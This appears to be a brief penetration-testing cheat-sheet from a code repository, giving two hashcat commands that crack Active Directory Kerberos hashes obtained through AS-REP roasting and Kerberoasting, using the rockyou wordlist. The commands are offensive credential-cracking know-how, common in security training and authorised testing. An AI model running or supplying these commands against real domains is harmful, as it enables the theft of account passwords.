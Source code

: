 # Cracking Hashes
## TGT
ASREPRoast
```bash
hashcat -m 18200 -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## SPN
Kerberoasting
```bash
hashcat -m 13100 -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```